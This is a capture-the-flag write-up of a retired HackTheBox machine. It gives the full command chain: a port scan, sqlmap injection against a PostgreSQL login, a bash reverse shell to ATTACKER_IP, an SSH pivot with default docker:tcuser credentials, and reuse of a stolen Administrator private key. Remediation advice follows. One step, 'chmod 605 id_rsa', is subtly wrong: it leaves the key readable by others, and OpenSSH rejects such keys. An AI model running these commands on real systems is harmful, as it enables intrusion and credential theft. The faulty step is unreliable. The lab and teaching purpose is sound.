 # Toolbox — SQLi → OS Shell (Postgres) → Container Pivot → Host SSH → Administrator Key → Administrator (Lab)

**Date:** 2025-10-19

---

## TL;DR

Anonymous FTP revealed a `docker-toolbox.exe` artifact and the site `admin.megalogistic.com`. By capturing the admin login request and using `sqlmap` against a PostgreSQL backend, I exploited a SQL injection to obtain an OS shell on the container. From there I recovered the user flag, pivoted to the host using `docker:tcuser` SSH credentials (container gateway), located `C:\Users\Administrator\.ssh\id_rsa`, and used that private key to SSH in as `Administrator`. All testing occurred on a retired HackTheBox VM in an isolated lab; artifacts are sanitized.

---

## Scope & permission

This assessment was performed on a **retired HackTheBox machine** in a lab I control. All commands, artifacts, and outputs in this document are sanitized for public release. **Do not run exploit code or use recovered keys against third‑party or production systems.**

---

## Environment & notable findings

* **Target:** `TARGET_IP` (certificate CN: `admin.megalogistic.com`)
* **Services discovered (sanitized):**

  * FTP (21) — FileZilla ftpd — anonymous FTP allowed (found `docker-toolbox.exe`)
  * HTTPS (443) — Apache/2.4.38 (Debian) — site `admin.megalogistic.com`
  * Windows services observed (SSH for Windows, SMB/RPC ports, WinRM‑like ports) — indicating a mixed/virtualized environment
* **Container evidence:** FTP artifact (`docker-toolbox.exe`) and container IPs observed from shells

---

## Tools used

`nmap`, `ftp` / FTP client, browser + Burp (to capture login POST), `sqlmap`, `nc` (netcat), basic shell utilities (`python3 -c`, `pty`), and `ssh`. Private keys and unredacted logs were retained offline.

---

## Short chain summary

1. `nmap` → discovered anonymous FTP and `docker-toolbox.exe` artifact.
2. Mapped the host to `admin.megalogistic.com` and captured the admin login POST.
3. `sqlmap` → confirmed PostgreSQL SQL injection, enumerated the `public.users` table and obtained a hashed admin password.
4. `sqlmap --os-shell` → spawned an OS shell and obtained a reverse shell back to the attacker.
5. Interactive shell → upgraded to PTY and retrieved `user.txt` from Postgres directories.
6. Identified container networking (e.g., `CONTAINER_IP` 172.17.0.2 and gateway 172.17.0.1).
7. SSH to host as `docker` using known `docker-toolbox` credentials (`docker:tcuser`) → accessed host filesystem (`C:\Users`).
8. Located `C:\Users\Administrator\.ssh\id_rsa`, copied the private key out securely (kept private).
9. `ssh -i id_rsa administrator@TARGET_IP` → authenticated as `Administrator` and captured `root.txt`.

---

## Detailed steps (sanitized, reproducible)

### 1) Port scan

```bash
nmap -p- -sCV -T4 --open -oA recon --stats-every 5s TARGET_IP
```

The scan revealed anonymous FTP, HTTPS (admin portal), and several Windows ports — signalling a mixed or virtualized environment.

### 2) Anonymous FTP & artifact discovery

```text
ftp TARGET_IP
# login: anonymous
# password: (blank)
ls -la
```

**Found:** `docker-toolbox.exe` in the FTP root — a strong hint of Docker tooling and a potential pivot vector.

### 3) Map hostname & capture login

Add an `/etc/hosts` entry so `admin.megalogistic.com` resolves locally:

```bash
echo "TARGET_IP admin.megalogistic.com" | sudo tee -a /etc/hosts
```

Use a browser with Burp Suite to capture the admin login POST request and save it as `login.req` for `sqlmap`.

### 4) SQLi discovery & enumeration with `sqlmap`

Initial discovery and DB enumeration:

```bash
sqlmap -r login.req --batch --dbs -o
```

Sanitized results showed a **PostgreSQL** backend. After enumerating schemas and tables, `public.users` was found and dumped:

```bash
sqlmap -r login.req -D public --tables --batch
sqlmap -r login.req -D public -T users --dump --batch
```

Result: `users` table contained a single row: `username = admin`, `password = <hashed>`.

### 5) `sqlmap` OS shell → reverse shell (lab‑only)

Using `sqlmap`’s interactive OS shell (`--os-shell` or `--os-pwn`) I executed commands to spawn a reverse shell back to the attacker.

On attacker (listener):

```bash
nc -lvnp LPORT
```

From `sqlmap`’s OS shell (lab):

```bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/LPORT 0>&1'
```

After connection:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Result: interactive shell on the database/container host.

### 6) Locate user flag & observe container network

From the shell, I searched typical Postgres paths:

```bash
cd /var/lib/postgresql
ls -la
# found user flag
cat user.txt
```

I inspected networking to determine container and host addresses:

```bash
ifconfig || ip a
# saw container IP (e.g., 172.17.0.2) and gateway 172.17.0.1
```

### 7) Pivot to host via known `docker-toolbox` creds

Documentation/notes that accompanied `docker-toolbox.exe` suggested the credentials `docker:tcuser`.

From a reachable system (able to reach the container gateway):

```bash
ssh docker@172.17.0.1
# password: tcuser
```

This provided SSH access to the host VM as `docker`. Once on the host, I inspected Windows user folders (mounted or accessible via the host filesystem):

```bash
ls /c/Users
ls /c/Users/Administrator/.ssh
# found id_rsa
```

### 8) Retrieve Administrator private key & use it (lab‑only)

I copied `id_rsa` securely to the attacker machine (out of band). Locally, set strict permissions and connect:

```bash
chmod 605 id_rsa
ssh -i id_rsa administrator@TARGET_IP
```

Authentication succeeded and I retrieved `root.txt` from `C:\Users\Administrator\Desktop`.

---

## Impact

Full host compromise: SQL injection → OS command execution on DB/container → pivot to host via Docker/tooling credentials → discovery and reuse of Administrator private key → Administrator remote access. This chain enables data exfiltration, persistence, and lateral movement.

---

## Remediation (prioritized)

1. **Fix SQL injection:** use parameterized queries / prepared statements and validate all input. Disable stacked queries where possible.
2. **Remove or restrict anonymous FTP:** do not expose artifacts such as `docker-toolbox.exe` publicly; monitor FTP uploads and access.
3. **Avoid storing keys in user directories:** adopt proper key management and rotate keys that may have been exposed.
4. **Segregate containers from host management:** do not allow container bridge IPs to grant host access; enforce network isolation and restrict SSH to trusted management networks.
5. **Harden SSH & key usage:** enforce strict permissions, use passphrases for private keys, and log/alert on new key usage.
6. **Monitor for anomalous database activity:** detect unusual queries, exports, or use of automated SQLi tooling.

---

## Appendix / Notes

* All artifacts and commands are **sanitized** and were executed in an isolated lab environment.
* This writeup documents an attack chain intended for defensive awareness and remediation guidance only.

